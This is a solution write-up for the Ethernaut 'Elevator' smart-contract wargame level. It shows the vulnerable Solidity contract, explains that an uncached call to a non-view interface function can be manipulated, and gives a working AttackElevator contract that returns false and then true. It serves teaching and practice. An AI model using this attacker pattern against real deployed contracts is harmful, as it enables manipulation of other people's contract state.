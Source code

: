 ```yaml
---
description: what can happen when calling a function externally
---
```


# 11 - Elevator

Ethernaut Level11: [Elevator](https://ethernaut.openzeppelin.com/level/0x4A151908Da311601D967a6fB9f8cFa5A3E88a251)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### Goal of this level

* make `top` variable `true`

### What you should know before

* State Mutability\
  \-> see [here](https://docs.soliditylang.org/en/develop/contracts.html#state-mutability)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

`goTo` function is not caching the result of calling `isLastFloor` .

Since `isLastF`loor is not a `view` function, \
we can make it return different value each time it is called.

</details>

```solidity
contract AttackElevator is Building {
    bool called;

    function attack(Elevator _instance) external {
        _instance.goTo(1);
    }

    function isLastFloor(uint256) external returns (bool) {
        if(!called) {
            called = true;    
            return false;
        }
        return true;
    }
}
```

```solidity
if (! building.isLastFloor(_floor)) { // building.isLastFloor(_floor) returns false
  floor = _floor;
  top = building.isLastFloor(floor); // building.isLastFloor(floor) returns true
}
```

`isLastFloor` function will return `false` in the first time it is called,\
and it will return `true` after first call.

Deploy the contract and call `attack()` function.

Done! 😎

## Key Takeaways

* To prevent functions from **modyfing states**, declare it as `pure` or `view`.
